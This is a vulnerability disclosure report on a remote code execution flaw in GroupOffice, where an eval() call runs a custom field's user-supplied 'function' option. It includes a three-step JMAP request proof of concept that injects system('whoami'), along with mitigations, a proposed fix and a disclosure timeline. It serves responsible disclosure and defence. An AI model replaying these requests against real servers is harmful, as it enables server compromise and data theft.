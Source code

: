 ```yaml
---
title: CVE XXXX-XXXXX
date: 2025-09-30 12:14:12 +1
categories: [CVE]
tags: [CVE, RCE]
---
```


# GroupOffice Remote Code Execution Vulnerability Report

## Executive Summary

A critical Remote Code Execution (RCE) vulnerability has been discovered in GroupOffice that allows authenticated users with custom field management privileges to execute arbitrary PHP code on the server. This vulnerability affects the custom field functionality and can lead to complete server compromise.

## Vulnerability Details

**Product**: GroupOffice  
**Affected Component**: Custom Field Function Field Type  
**Vulnerability Type**: Remote Code Execution (RCE)  
**Severity**: Critical (CVSS 3.1: 9.1)  
**Authentication Required**: Yes (with `mayChangeCustomFields` permission)  
**CVE ID**: Pending Assignment  

## Technical Description

The vulnerability exists in the `FunctionField` class located at `/www/go/core/customfield/FunctionField.php`. The `dbToApi()` method uses PHP's `eval()` function to execute user-controlled input without proper sanitization:

```php
// Line 65 in FunctionField.php
eval("\$result = " . $f . ";");
```

The variable `$f` contains the value from `$this->field->getOption("function")`, which is directly controlled by users who can create or modify custom fields of type "FunctionField".

## Proof of Concept

### Step 1: Create a FieldSet
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["FieldSet/set", {
      "create": {
        "temp1": {
          "name": "Test FieldSet",
          "entity": "Contact"
        }
      }
    }, "c1"]
]
```

### Step 2: Create Malicious FunctionField
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Field/set", {
      "create": {
        "temp1": {
          "name": "Calculator Field",
          "fieldSetId": "1",
          "type": "FunctionField",
          "databaseName": "calc_field",
          "options": {
            "function": "system('whoami'); 42"
          },
          "sortOrder": 1
        }
      }
    }, "c1"]
]
```

### Step 3: Trigger Code Execution
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Contact/get", {
      "ids": null,
      "properties": ["id", "name", "customFields"]
    }, "c1"]
]
```

### Expected Result
The server executes the `whoami` command and returns the result in the custom field value, demonstrating successful code execution.

## Impact Assessment

- **Complete Server Compromise**: Attackers can execute arbitrary system commands
- **Data Exfiltration**: Access to sensitive files and database contents
- **Lateral Movement**: Potential to compromise other systems on the network
- **Service Disruption**: Ability to modify or delete critical system files
- **Privilege Escalation**: Depending on web server configuration

## Affected Versions

This vulnerability affects GroupOffice installations that include the custom fields functionality. The exact version range needs to be determined by the development team.

## Prerequisites for Exploitation

1. Valid authentication to GroupOffice
2. User account with `mayChangeCustomFields` permission
3. Access to entities that support custom fields (Contacts, Notes, Tasks, etc.)

## Mitigation Recommendations

### Immediate Actions
1. **Disable FunctionField Type**: Remove or disable the FunctionField custom field type
2. **Review Permissions**: Audit users with `mayChangeCustomFields` permissions
3. **Monitor Logs**: Check for suspicious custom field creation activities

### Long-term Fixes
1. **Remove eval() Usage**: Replace `eval()` with a safe mathematical expression parser
2. **Input Validation**: Implement strict validation for function field expressions
3. **Sandboxing**: If mathematical expressions are needed, use a sandboxed parser library
4. **Code Review**: Audit all instances of `eval()`, `system()`, `exec()` in the codebase

## Proposed Fix

Replace the vulnerable code in `FunctionField.php`:

```php
// VULNERABLE CODE (Line 65)
eval("\$result = " . $f . ";");


// SECURE ALTERNATIVE
try {
    // Use a safe mathematical expression evaluator
    $parser = new MathExpressionParser();
    $result = $parser->evaluate($f);
} catch (Exception $e) {
    $result = null;
}
```

## Timeline

- **Discovery Date**: 2025-08-28
- **Vendor Notification**: 2025-08-29
- **Vendor Response**: Yes
- **Fix Released**: Fixed in 25.0.47 and 6.8.136

## Credit

Discovered by: Noah "nxvh" Heraud  
Contact: heraud260@gmail.com  

## Responsible Disclosure

This vulnerability is being reported following responsible disclosure practices. We request:

1. Acknowledgment of this report within 5 business days
2. Regular updates on remediation progress
3. Credit in security advisories and release notes
4. Coordination on public disclosure timing

## References

- [GroupOffice Official Website](https://www.group-office.com/)
- [OWASP Code Injection Prevention](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-94: Improper Control of Generation of Code](https://cwe.mitre.org/data/definitions/94.html)
